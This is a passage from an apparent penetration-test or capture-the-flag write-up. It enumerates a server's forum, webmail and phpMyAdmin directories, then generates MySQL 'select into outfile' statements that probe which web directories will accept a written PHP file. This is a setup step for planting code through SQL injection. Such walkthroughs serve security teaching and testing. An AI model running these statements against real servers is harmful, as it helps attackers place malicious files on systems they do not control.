 ```
forum
webmail
phpmyadmin
server-status
forum/images
forum/themes
forum/modules
forum/includes
forum/update
forum/js
forum/lang
forum/config
forum/backup
forum/
forum/index
forum/
forum/templates_c
webmail/help
webmail/
webmail/images
webmail/themes
webmail/plugins
webmail/src
webmail/include
webmail/config
webmail/class
webmail/functions
webmail/po
webmail/locale
webmail/
phpmyadmin/themes
phpmyadmin/js
phpmyadmin/libraries
phpmyadmin/setup
phpmyadmin/locale
phpmyadmin/
phpmyadmin/pmd
phpmyadmin/
/
```

Now, I'm going to try all of them to see if we can write somewhere. Instead of trying each one
separately.

```sh
 for line in $(cat paths.txt); do echo select \"test\" into outfile \"/var/www/$line/injected_file.php\"";"; done
```

where paths.txt just the previous output

```
select "test" into outfile "/var/www/forum/injected_file.php";
select "test" into outfile "/var/www/webmail/injected_file.php";
select "test" into outfile "/var/www/phpmyadmin/injected_file.php";
select "test" into outfile "/var/www/server-status/injected_file.php";
select "test" into outfile "/var/www/forum/images/injected_file.php";
select "test" into outfile "/var/www/forum/themes/injected_file.php";
select "test" into outfile "/var/www/forum/modules/injected_file.php";
select "test" into outfile "/var/www/forum/includes/injected_file.php";
select "test" into outfile "/var/www/forum/update/injected_file.php";
select "test" into outfile "/var/www/forum/js/injected_file.php";
select "test" into outfile "/var/www/forum/lang/injected_file.php";
select "test" into outfile "/var/www/forum/config/injected_file.php";
select "test" into outfile "/var/www/forum/backup/injected_file.php";
```